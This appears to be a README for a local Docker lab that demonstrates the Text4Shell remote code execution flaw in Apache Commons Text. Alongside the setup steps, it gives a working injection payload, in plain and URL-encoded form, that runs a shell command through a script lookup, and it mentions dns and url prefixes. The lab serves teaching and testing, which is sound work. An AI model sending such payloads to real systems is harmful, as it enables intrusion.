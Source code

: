 ### Install maven - [maven-linux](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu)
-------------
//For automated hacking:
1../install.sh
```
2../exploit.sh
```
3.To remove the application use ./stopapp.sh 

//For manual hacking:

1. Maven install to create the fat jar

```
mvn clean install
```

2. Docker build

```
docker build --tag=text4shell .
```

3. Docker run

```
docker run -p 80:8080 text4shell
```

4. Test the app

```
http://localhost/text4shell/attack?search=<anything>
```

5. Attack can be performed by passing a string “${prefix:name}” where the prefix is the aforementioned lookup:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

6. You can also try using `dns` or `url` prefixes.

7. Get the container id

```
docker container ls
```

8. Get into the app

```
docker exec -it <container_id> bash
```

9. To check if above RCE was successful (You should see a file named `foo` created in the `/tmp` directory):

```
ls /tmp/
```

10. To stop the container

```
docker container stop <container_id>
```
